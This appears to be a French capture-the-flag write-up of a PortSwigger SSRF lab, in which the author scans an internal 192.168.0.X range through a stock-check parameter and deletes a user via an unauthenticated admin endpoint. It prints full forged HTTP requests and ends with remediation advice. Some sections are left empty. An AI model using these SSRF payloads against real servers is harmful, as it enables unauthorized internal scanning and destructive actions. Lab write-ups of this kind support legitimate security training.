




# Lab: Basic SSRF against another back-end system

> **CTF :** PORTSWIGGER  

> **Catégorie :** Server-side request forgery (SSRF)  

> **Difficulté :** APPRENTICE  

> **Points :** ✅  

> **Date :** 26/07/2026  

> **Statut :** ✅ Résolu

---

## 📌 Description du Challenge

> *This lab has a stock check feature which fetches data from an internal system.
To solve the lab, use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos.*

---

## 🎯 Objectif

- Nous devons modifier l'URL de vérification de stock pour accéder à l'interface d'administration et supprimer l'utilisateur Carlos.
---

## 🔍 Reconnaissance

- c'est une application qui propose des produits et possède un moyen de consulter le stock.  
- Nous sélectionnons un produit de la boutique et activons l'interception dans Burp Suite au moment de vérifier le stock pour capturer la requête HTTP.

**Observations :**
-  En cliquant sur le bouton de vérification, nous constatons qu'une requête HTTP POST est générée. Celle-ci transmet un paramètre d'API qui cible le serveur de stock.


**Outils utilisés :**
- BurpSuites

---

## 🧠 Hypothèse


---

## ⚔️ Exploitation

### Étape 1 —   

- L'adresse IP cible étant partiellement masquée, nous envoyons la requête POST dans le module Intruder. Cela va nous permettre de bruteforcer le dernier octet (de 1 à 254) afin de découvrir l'hôte actif sur le réseau local.


**Requête :**  


```http
POST /product/stock HTTP/1.1
Host: 0ad000af039fb1158023ad620017008c.web-security-academy.net
Cookie: session=33LjrlK1ZzrC7uI6Cy8puofB8hDy0UhJ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0ad000af039fb1158023ad620017008c.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0ad000af039fb1158023ad620017008c.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive

stockApi=http://192.168.0.X:8080/admin

```

**Réponse :**  

```http

```


---


---

### Étape 3 — 

- Une fois l'adresse IP interne validée (192.168.0.12), nous réutilisons le mécanisme d'exploitation précédent. Nous forgeons la requête SSRF finale pour forcer l'effacement du compte de Carlos : stockApi=http://192.168.0.12:8080/admin/delete?username=carlos.


**Payload utilisé :**
```http

POST /product/stock HTTP/2
Host: 0ad000af039fb1158023ad620017008c.web-security-academy.net
Cookie: session=33LjrlK1ZzrC7uI6Cy8puofB8hDy0UhJ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0ad000af039fb1158023ad620017008c.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Origin: https://0ad000af039fb1158023ad620017008c.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive

stockApi=http://192.168.0.12:8080/admin/delete?username=carlos
```

---

## 🚩 Flag




---

## 🛡️ Remédiation
Pour bloquer ce type d'attaque (SSRF orientée réseau), plusieurs couches de sécurité doivent être appliquées :

1. Isolation réseau et Segmentation (Zonage):
- Restreindre les accès inter-serveurs : Le serveur web public (celui qui a le paramètre stockApi) ne devrait pas avoir le droit de communiquer avec toutes les machines du réseau interne. Il faut bloquer les flux réseau inutiles via un pare-feu interne ou des groupes de sécurité.  
2. Contrôle strict au niveau applicatif (Allowlist)  
- Liste blanche d'IP/Domaines : Si la fonctionnalité de vérification des stocks doit contacter des serveurs précis, le code doit valider que l'IP demandée appartient à une liste stricte de serveurs autorisés. Les requêtes vers le reste de la plage 192.168.0.0/24 doivent être rejetées. 
3. Architecture "Zero Trust" (Confiance Zéro)
- Authentification partout : Le panneau d'administration sur 192.168.0.12 doit obligatoirement exiger un mécanisme d'authentification fort (jeton API, session, ou clé administrative), même si la requête provient du réseau local. Provenance interne ≠ Provenance légitime.  
4. Désactivation du suivi des redirections (Optionnel mais recommandé)
- Si le serveur effectue la requête HTTP, il faut s'assurer qu'il ne suit pas aveuglément les redirections HTTP (302 Found) qui pourraient le rediriger vers une adresse IP interne interdite.


---

## 💡 Points Clés à Retenir

- SSRF pour le scan de réseau (Network Scanning)Une SSRF ne permet pas seulement de cibler localhost. Elle peut être utilisée comme un proxy pour scanner un réseau local masqué (ici, la plage 192.168.0.0/24) derrière un pare-feu.  

-La confiance aveugle entre machines internesL'application sur l'IP 192.168.0.12 ne demandait aucune authentification pour supprimer un utilisateur. Les développeurs ont souvent le défaut de penser : "Puisque c'est sur le réseau interne, c'est forcément sécurisé". C'est le principe du périmètre de sécurité poreux. 

- L'intérêt de l'automatisation (Intruder)Quand une partie d'une cible est inconnue (comme le dernier octet d'une IP), l'automatisation via un outil de force brute/balayage (Burp Intruder) est indispensable pour cartographier l'infrastructure interne. 

---

## 📚 Références

- [PortSwigger — Lab: Basic SSRF against another back-end system](https://portswigger.net/web-security/topic)
- [OWASP — Vulnérabilité Associée](https://owasp.org/Top10/)


---

*Rédigé par : Malick Ramzy SOPODOU*
*PORTSWIGGER🌍*
